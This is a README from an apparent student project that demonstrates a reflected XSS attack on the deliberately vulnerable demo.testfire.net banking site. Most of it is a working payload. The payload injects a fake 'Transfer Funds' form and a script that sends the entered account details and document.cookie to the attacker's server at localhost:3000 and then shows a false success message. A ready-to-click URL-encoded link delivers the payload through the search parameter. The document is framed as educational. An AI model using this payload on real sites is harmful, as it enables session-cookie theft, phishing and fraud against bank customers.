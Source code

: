# About
Cross Site Scripting attack on an already logged in user.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

Here we are getting user's money transfer information by using fake transfer form which users would not be able notice and they will transfer money to the accounts and all those transfer details are sent to the local server of the attacker.

# Execution

```javascript
<form id="tForm" name="tForm" method="post" action="doTransfer" onsubmit="return (confirminput(tForm));"><h1>Transfer Funds</h1><table width="100%" cellspacing="0" cellpadding="1" border="0"><tbody><tr><td><strong>From Account:</strong></td><td><select size="1" id="fromAccount" name="fromAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong>To Account:</strong></td><td><select size="1" id="toAccount" name="toAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong> Amount to Transfer:</strong></td><td><input type="text" id="transferAmount" name="transferAmount"></td></tr><tr><td colspan="2" align="center"><input type="button" name="transfer" onclick= "showTransaction()" value="Transfer Money" id="transfer"></td></tr><tr><td colspan="2">&nbsp;</td></tr><tr><td colspan="2" align="center"><span id="_ctl0__ctl0_Content_Main_postResp" align="center"><span style="color: Red"></span></span></span></td></tr></tbody></table></form>

<script type="text/javascript">
    document.getElementsByClassName("fl")[0].children[0].textContent = "";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
    var today = new Date();
    var date = today.getFullYear()+'-'+(today.getMonth()+1)+'-'+today.getDate();
    var time = today.getHours() + ":" + today.getMinutes() + ":" + today.getSeconds();
    var dateTime = date+' '+time;
    function showTransaction()
    {
        new Image().src='http://localhost:3000/?FromAccount='+document.forms["tForm"].fromAccount.value
        +'&ToAccount='+document.forms["tForm"].toAccount.value
        +'&TransferMoney='+document.forms["tForm"].transferAmount.value+'&'+document.cookie;
        
        document.getElementById("_ctl0__ctl0_Content_Main_postResp").children[0].textContent = document.forms["tForm"].transferAmount.value
        +".0 was successfully transferred from Account "+ document.forms["tForm"].fromAccount.value+ " into Account "
        + document.forms["tForm"].toAccount.value + " at "+dateTime;
    }   
</script>
```

<a href="https://demo.testfire.net/search.jsp?query=%3Cform+id%3D%22tForm%22+name%3D%22tForm%22+method%3D%22post%22+action%3D%22doTransfer%22+onsubmit%3D%22return+%28confirminput%28tForm%29%29%3B%22%3E%3Ch1%3ETransfer+Funds%3C%2Fh1%3E%3Ctable+width%3D%22100%25%22+cellspacing%3D%220%22+cellpadding%3D%221%22+border%3D%220%22%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3EFrom+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22fromAccount%22+name%3D%22fromAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3ETo+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22toAccount%22+name%3D%22toAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3E+Amount+to+Transfer%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22transferAmount%22+name%3D%22transferAmount%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cinput+type%3D%22button%22+name%3D%22transfer%22+onclick%3D+%22showTransaction%28%29%22+value%3D%22Transfer+Money%22+id%3D%22transfer%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22%3E%26nbsp%3B%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cspan+id%3D%22_ctl0__ctl0_Content_Main_postResp%22+align%3D%22center%22%3E%3Cspan+style%3D%22color%3A+Red%22%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E++%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++var+today+%3D+new+Date%28%29%3B+++++var+date+%3D+today.getFullYear%28%29%2B%27-%27%2B%28today.getMonth%28%29%2B1%29%2B%27-%27%2Btoday.getDate%28%29%3B+++++var+time+%3D+today.getHours%28%29+%2B+%22%3A%22+%2B+today.getMinutes%28%29+%2B+%22%3A%22+%2B+today.getSeconds%28%29%3B+++++var+dateTime+%3D+date%2B%27+%27%2Btime%3B+++++function+showTransaction%28%29+++++%7B+++++++++new+Image%28%29.src%3D%27http%3A%2F%2Flocalhost%3A3000%2F%3FFromAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.fromAccount.value+++++++++%2B%27%26ToAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.toAccount.value+++++++++%2B%27%26TransferMoney%3D%27%2Bdocument.forms%5B%22tForm%22%5D.transferAmount.value%2B%27%26%27%2Bdocument.cookie%3B++++++++++++++++++document.getElementById%28%22_ctl0__ctl0_Content_Main_postResp%22%29.children%5B0%5D.textContent+%3D+document.forms%5B%22tForm%22%5D.transferAmount.value+++++++++%2B%22.0+was+successfully+transferred+from+Account+%22%2B+document.forms%5B%22tForm%22%5D.fromAccount.value%2B+%22+into+Account+%22+++++++++%2B+document.forms%5B%22tForm%22%5D.toAccount.value+%2B+%22+at+%22%2BdateTime%3B+++++%7D+++++%3C%2Fscript%3E">Demo Link for fake Transaction</a>

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019
